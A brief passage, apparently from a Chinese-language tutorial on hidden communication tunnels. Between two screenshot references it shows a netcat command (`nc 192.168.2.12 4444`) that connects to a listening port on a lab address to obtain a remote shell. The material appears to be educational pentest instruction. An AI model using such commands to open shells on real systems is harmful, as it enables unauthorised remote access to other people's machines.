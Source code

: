 ![](img/隐藏通信隧道基础知识/37.png)

在服务端连接客户端命令，连接成功就可以执行shell：

```
nc 192.168.2.12 4444
```

![](img/隐藏通信隧道基础知识/38.png)
